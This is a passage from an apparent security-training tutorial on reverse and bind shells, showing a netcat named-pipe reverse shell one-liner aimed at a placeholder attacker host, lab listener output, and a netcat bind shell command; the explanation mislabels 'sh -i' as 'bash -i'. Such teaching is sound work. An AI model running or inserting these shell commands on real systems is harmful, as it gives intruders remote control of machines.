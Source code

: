 These payloads are useful in both penetration testing and red team engagements for simulating real-world attack scenarios.

As an example, let's analyze an example payload named a pipe reverse shell, as shown below.

```bash 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
**Explanation of the Payload**

- `rm -f /tmp/f` – Removes any existing named pipe at `/tmp/f` to prevent conflicts.  
- `mkfifo /tmp/f` – Creates a named pipe (`FIFO`) at `/tmp/f` for two-way communication.  
- `cat /tmp/f` – Reads data from the named pipe, waiting for input.  
- `| bash -i 2>&1` – Pipes input to an interactive Bash shell; redirects stderr to stdout.  
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` – Sends shell output to the attacker via Netcat.  
- `>/tmp/f` – Redirects output back into the named pipe for bi-directional communication.

The payload above can expose the shell `bash` through the network to the desired listener.

#### Attacker Receives the Shell

Once the above payload is executed, the attacker will receive a reverse shell, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the OS.

*Attacker Terminal Output (Receiving Shell)*

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo".
See "man sudo_root" for details.

target@tryhackme:~$
```
The output above shows the connection coming from the IP `10.10.13.37`, which is the IP address of the compromised target.

## Bind Shell

As the name indicates, a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.

### How bind shells work

#### Setting Up the Bind Shell on the Target

Let's create a bind shell. In this case, the attacker can use a command like the one below on the target machine.

```bash 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
